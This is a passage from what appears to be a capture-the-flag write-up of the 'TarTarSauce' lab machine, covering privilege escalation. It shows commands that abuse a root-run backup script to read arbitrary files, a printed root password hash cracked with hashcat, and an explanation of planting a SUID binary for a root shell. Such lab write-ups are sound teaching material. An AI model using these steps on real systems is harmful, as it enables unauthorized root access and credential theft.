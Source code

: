 Subsitute the hash value with the temp archive name from the output of the bash loop during the 30 second window:

```bash
# run as onuma since the archive is owned by that user!
cp /var/tmp/bubba.tar /var/tmp/.9b5f55c7a1cae89d73cc6597b824e3acb09fbd8c
```

Then check the contents of `onuma_backup_error.txt` to see the following:

```bash
cat /var/backups/onuma_backup_error.txt
```

![user9](./tartarsauce/user9.png)

Nice! That is the contents of `root.txt` at the bottom and the hash for `root`. Try to crack it:

```bash
echo '$6$AKRzYZby$Q88P1RTNm6Ho39GencM8qFL8hkhF0GmIhYAdxlIuHVv50BTTXvIH2rzgWOCkZOQDSuWo6gWQ2gXoePj8Rwthm0' > root.hash
hashid root.hash # SHA-512 Crypt
hashcat --help | grep SHA512 # 1800 | sha512crypt $6$, SHA512 (Unix)
hashcat -m 1800 -a 0 --quiet --force --potfile-disable root.hash rockyou.txt
```

But this does not return any easy wins... Not sure what the next step is here... This vulnerability allows for reading any file on the system but how to use this for a `root` shell? The key here is that the Bash script creates the directory `/var/tmp/check` as `root` and does not delete that directory until the next script execution _if_ the integrity match fails. This means, a SUID binary can be added into the archive on Kali and extracted as `root` into `/var/tmp/check` on the target. Then, after the integrity match fails, the file will exist until the next execution and allow for a `root` shell to be made as long as the payload calls `setuid()`:
